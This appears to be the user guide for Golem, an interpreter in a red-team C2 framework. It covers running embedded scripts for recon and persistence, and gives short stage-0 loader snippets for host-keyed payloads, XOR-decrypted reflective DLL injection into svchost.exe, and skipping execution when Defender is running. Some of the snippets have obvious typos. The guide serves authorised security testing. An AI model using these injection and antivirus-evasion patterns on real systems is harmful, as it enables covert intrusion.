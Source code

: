```yaml
---
title: Golem
tags: 
 - User Guide
description: Golem User Guide
permalink: user-guide/golem
---
```

## What is Golem
Golem is the standalone interpreter for Eldritch.
This program exists to help users get experience with the Eldritch language as well as a jumping off point if you're interested in implementing your own program using the Eldritch language.

Golem can also be used operationally as an alternative to a system native shell.
You can leverage the power of Eldritch with minimal exposure in the system process tree.

## Try it out.
```bash
git clone git@github.com:KCarretto/realm.git
cd realm/implants/golem
cargo run -- -i
# - or - 
cargo build --release && \
    ../target/debug/golem ../../tests/golem_cli_test/tomes/hello_world.tome
```

## Golem embedded files
The Eldritch interpreter can embed files at compile time. To interact with these assets use the `assets` module in eldritch. In addition to programatic access the embedded files can be automatically executed at run time. If no other option is specified `-i` or a file path, golem will iterate over every instance of `main.eld` in the embedded assets launching each one as a seperate thread. This behavior is desirable when trying to perform recon or deploy persistence quickly.

## Golem as a stage 0
Golem can also be used as a stage 0 to load imix or other c2 agents.
This can help in a few ways such as:

- Keying payloads to specific hosts

```python
def main():
    if is_linux():
        if is_dir("/home/hulto/"):
            run_payload()
main()
```

- Executing encrypted payloads from memory

```python
def decrypt(payload_bytes):
    let res = []
    for byte in in payload_bytes:
        res.push(byte ^ 6)
    return res

def main():
    if is_windows():
        for proc in proccess.list():
            if "svchost.exe" in proc['name']:
                let enc_bytes = assets.read_bytes("imix.dll")
                sys.dll_reflect(decrypt(enc_bytes), proc['pid'], 'imix_main')
                return

main()
```

- Detecting security products before execution

```python
def main():
    for proc in proccess.list():
        if "MsMpEng.exe" in proc['name']:
            return
    run_payload()
main()
```